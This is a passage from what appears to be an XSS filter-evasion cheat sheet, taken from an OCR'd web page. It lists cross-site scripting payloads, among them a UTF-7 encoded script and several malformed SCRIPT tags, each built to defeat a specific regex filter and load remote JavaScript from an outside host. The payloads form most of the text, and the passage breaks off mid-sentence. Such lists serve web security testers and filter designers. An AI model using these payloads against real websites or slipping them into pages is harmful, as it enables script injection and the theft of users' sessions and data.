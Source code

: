 ` <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-`

## XSS using HTML quote encapsulation

This was tested in IE, your mileage may vary. For performing XSS on
sites that allow "

<SCRIPT>

" but don't allow "\<SCRIPT SRC..." by way of a regex filter
"/\<script\[^\>\]+src/i":

`<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

For performing XSS on sites that allow "

<SCRIPT>

" but don't allow "\<script src..." by way of a regex filter
"/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i"
(this is an important one, because I've seen this regex in the wild):

`<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

Another XSS to evade the same filter,
"/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i":

`<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>`

Yet another XSS to evade the same filter,
"/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i".
I know I said I wasn't goint to discuss mitigation techniques but the
only thing I've seen work for this XSS example if you still want to
allow

<SCRIPT>

tags but not remote script is a state machine (and of course there are
other ways to get around this if they allow

<SCRIPT>

tags):

`<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

And one last XSS attack to evade,
"/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i"
using grave accents (again, doesn't work in Firefox):

``<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>``

Here's an XSS example that bets on the fact that the regex won't catch a
matching pair of quotes but will rather find any quotes to terminate a
parameter string improperly:

`<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

This XSS still worries me, as it would be nearly impossible to stop this
without blocking all active content:
